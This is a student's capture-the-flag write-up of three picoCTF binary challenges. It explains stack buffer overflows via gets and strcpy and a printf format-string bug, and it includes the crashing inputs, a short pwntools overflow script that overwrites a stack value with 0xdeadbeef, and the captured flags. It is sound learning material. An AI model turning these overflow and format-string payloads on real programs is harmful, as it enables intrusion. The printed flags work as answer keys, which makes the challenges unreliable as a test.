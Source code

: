 # 1. Buffer Overflow 0
Let's start off simple, can you overflow the correct buffer? The program is available _here_. You can view source _here_.
After launching instance - Connect using: nc saturn.picoctf.net 57780

## Solution
Upon analysis of the C source code, we see the function 'sigsegv_handler' which prints that secret if the program receives a segmentation fault (SIGSEGV). the challenge hint and the gets man page tells us that gets is an unsafe manner in which info is obtained and can be exploited by overflow attacks. Below is the manpage of gets

```
 The gets() function cannot be used securely.  Because of its lack of
     bounds checking, and the inability for the calling program to reliably
     determine the length of the next incoming line, the use of this function
     enables malicious users to arbitrarily change a running program's
     functionality through a buffer overflow attack.  It is strongly suggested
     that the fgets() function be used in all cases.  (See the FSA.)
```

The program also uses strcpy to move the obtained string into a much smaller buffer (16-byte). Therefore, if our input is above 16 bytes, we'll get the flag from the global flag buffer as SIGSEGV will be called (buffer overflows). 

Calling the nc connection we pass a relatively long string and Voilà.

![](IMAGES/manpage.png "Gets manpage warning")


## Flag: 
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

## Concepts learnt
This challenge required me to look into buffer overflows in C, I've looked into SIGSEGV and nc connections along with the gets command (and why it's not preffered and exposes a crucial vulnerability in the challenge). 


## Notes
Note to note here, challenge was self explainatory. Few trial and errors eventually gave the flag

## References
https://en.wikipedia.org/wiki/Segmentation_fault
https://www.varonis.com/blog/netcat-commands
https://stackoverflow.com/questions/1694036/why-is-the-gets-function-so-dangerous-that-it-should-not-be-used

***

# 2. Format String 0
Can you use your knowledge of format strings to make the customers happy? Download the binary *here*. Download the source *here*.
After running instance - Conncect via netcat 

## Solution
Just as the previous challenge, the source code utilises the SIGSEGV signal which prints the flag when activated. In the first interaction after the main function sets the program sandbox, serve_patrick() is called and it prompts us as the user and takes a string as choice1. But then we see this.

```C
int count = printf(choice1);
```

This line of code passes our string directly as the format string rather than as data. Therefore we see that any % sequences in the input will be interpreted by printf as format specifiers. Looking into the options their actual size are all the same as strings, the function only continues to the next "customer" if the string passed is greater than 64 bytes. The option "Gr%114d_Cheese" works here as %114, although not an actual format specifier in C When used like %114d, the 114 is a minimum field width. It tells printf to print the value in a field at least 114 characters wide and thus greatly increasing our size when passed into the size variable.

With that serve_bob() is called where we're told to deliver an "outrageous order". The source code has no checks, except for the previously declared SIGSEGV, so now we have to look for a string to pass as a format string to "crash" the program. Passing "Cla%sic_Che%s%steak" to the prompt, as %s is a format specifier, this crashes the program and gives us our flag. This call of string format specifiers which don't really interpet anything causes a segmentation error and causes the SIGSEGV function to activate and print our flag.

![](IMAGES/format_string.png "Full netcat connection")

## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## Concepts Learnt
Format specifiers are the main takeaway here, this challenge gives us an idea of how they work and how they're subtly used in completing the challenge. Also looked into the nuances of the printf command during variable initialisation. 

## Notes
Quite an easy challenge, only required two tries. 

## References
https://www.geeksforgeeks.org/c/format-specifiers-in-c/

***


# 3. Clutter overflow
Clutter, clutter everywhere and not a byte to use. nc mars.picoctf.net 31890

## Solution
Looking into the nc conntection, we see this

![](IMAGES/testpay.png "test payload to nc")

Passing the payload also gives us a 0x0 which does not align with the given code of '0xdeadbeef'. Looking into the C source for a bit we see that the program uses gets, which is vulnerable to a bufferoverflow and can be used to exploit the system and convert the stack to store the hex code of deadbeef. Being given the hint of using pwntools we script this using p64 and remote.

```py
from pwn import remote, p64

r = remote("mars.picoctf.net", 31890)
r.sendline(b"A"*0x108 + p64(0xdeadbeef))
print(r.recvall(timeout=4).decode(errors="ignore"))
r.close()
```

Saving this as `exploit.py` we further pass this in the terminal

```zsh
python3 exploit.py
```

Giving us the flag.


## Flag:
```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt
Here p64 passes a little-endian representation of the hex code after overflowing the buffer (A is repeated 0x108 times i.e 264), rewriting it with the representation of `0xdeadbeef`. 
Remote here estabilshes a connection automatically to the challenge server via code. (no need to nc in terminal)
`r.recvall()` reads everything the remote end sends until the connection closes. 
`.decode(errors="ignore")` converts the raw bytes to a string for printing
`.sendline()` just processes and passes our payload to the nc connection, essentially doing the typing job
b"..." produces a bytes object to pass raw binary data

The reason why we script this is because of the fact that we can't pass the raw binary data of the converted text as ASCII into the nc connection and hence requires so. I think printf also works here as it passes data as raw binary but I couldn't seem to get it to pipe into the nc connection.  

## Notes
This was a step more difficult for me compared to previous challenges. I wasn't familiar with how to pass the hex equivalent to the buffer so all I got were iterations of 0x1414141 into my code as only A's filled the stack after overflow. This was quite complex and had me delve into little endian representation as well as the pwntools catalogue, eventually forcing me to script the paylaod passing. 

## References
https://docs.pwntools.com/en/latest/util/packing.html#pwnlib.util.packing.p64
https://docs.pwntools.com/en/stable/tubes/sockets.html#pwnlib.tubes.remote.remote
https://www.geeksforgeeks.org/dsa/little-and-big-endian-mystery/
https://guyinatuxedo.github.io/02-intro_tooling/pwntools/index.html
https://en.wikipedia.org/wiki/Endianness

